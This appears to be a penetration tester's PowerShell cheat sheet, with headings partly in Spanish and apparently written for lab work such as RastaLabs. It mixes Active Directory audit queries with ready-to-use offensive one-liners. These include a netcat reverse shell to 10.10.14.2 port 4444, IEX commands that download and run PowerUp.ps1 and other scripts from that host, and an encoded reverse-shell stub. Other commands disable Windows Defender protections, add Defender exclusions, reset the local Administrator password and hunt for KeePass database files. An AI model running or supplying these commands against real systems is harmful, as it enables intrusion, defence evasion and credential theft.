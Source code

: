 # Powershell Commands

## AD

### Cuentas genericas como administradores de Dominio

```powershell
Get-ADGroupMember -Identity "Domain Admins" -Recursive | Get-ADUser -Properties samaccountname, Name, Enabled | Select-Object samaccountname, Name, Enabled
```

## Cuentas de administradores de dominio no cumplen con las mejores practicas

```powershell
Get-ADGroupMember -Identity "Domain Admins" | Get-ADUser -Properties samaccountname, Name, PasswordLastSet, PasswordNeverExpires, Enabled | Select-Object samaccountname, Name, PasswordLastSet, PasswordNeverExpires, Enabled
```


### Contrasenas de usuarios de dominio que no expiran y estan habilitadas

```powershell
Get-ADGroupMember -Identity "Domain Users" | Get-ADUser -Properties samaccountname, Name, Enabled, PasswordNeverExpires | Select-Object samaccountname, Name, Enabled, PasswordNeverExpires | Export-Csv -Path .\users_expirepass.csv -NoTypeInformation 
```

### Machine quota

```powershell
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```

## Windows oneliners

### Ping network

```powershell
1..254 | ForEach-Object { $ip = "192.168.210.$_"; if (Test-Connection -ComputerName $ip -Count 1 -Quiet) { Write-Host "IP: $ip is Up" } }
```

### Search file

```powershell
Get-ChildItem -Path C:\ -Filter "file.ext" -Recurse -ErrorAction SilentlyContinue
```

### Search files C:\Users Directory

```powershell
Get-ChildItem -Path C:\Users -Recurse -ErrorAction SilentlyContinue
```

### Change Password of Administrator

```powershell
Set-LocalUser -Name "Administrator" -Password (ConvertTo-SecureString -AsPlainText "Password" -Force)
```

### Start Process

```powershell
Start-Process powershell -Verb runAs "\\10.10.14.2\share\nc.exe -e powershell 10.10.14.2 4444"
```

### Powershell bypass

```powershell
powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2/PowerUp.ps1'); Invoke-AllChecks”
```

### Shell base64

```powershell
# https://www.revshells.com/ -> Powershell #3 (Base64)
powershell.exe -e <base64 here>
```

### Import Powershell HTTP

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2:80/script.ps1')
```

### Check if you are Administrator

```powershell
([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)
True
```

### Check antivirus and disable

```powershell
Get-MpComputerStatus | Select-Object AntivirusEnabled
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend
```

### PSRemoting is enabled

```powershell
Test-WSMan -Computername srv01.rastalabs.local
```

### Get Hash MD5

```powershell
(Get-FileHash -Path "C:\Windows\Temp\info.txt" -Algorithm MD5).Hash
```

## Find .kdb and .kdbx files

```powershell
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.Extension -eq ".kdbx" -or $_.Extension -eq ".kdb" }
```

## TCP COnnection

```powershell
Test-NetConnection -ComputerName <Dirección_IP> -Port <Número_Puerto>
(New-Object System.Net.Sockets.TcpClient("127.0.0.1", "80")).Connected
```

## Change version

```powershell
PowerShell -Version 2
$PSVersionTable.PSVersion
```

## Add Exclusion Defender

```powershell
# Importar el módulo Defender
Import-Module Defender
# Agregar una carpeta a las exclusiones de Windows Defender
Add-MpPreference -ExclusionPath "C:\Ruta\De\La\Carpeta"
# Verificar que la exclusión se haya agregado correctamente
Get-MpPreference
```

## List Antivirus installed

```powershell
(Get-CimInstance -Namespace "root/SecurityCenter2" -ClassName AntiVirusProduct).productState -as [System.String]
```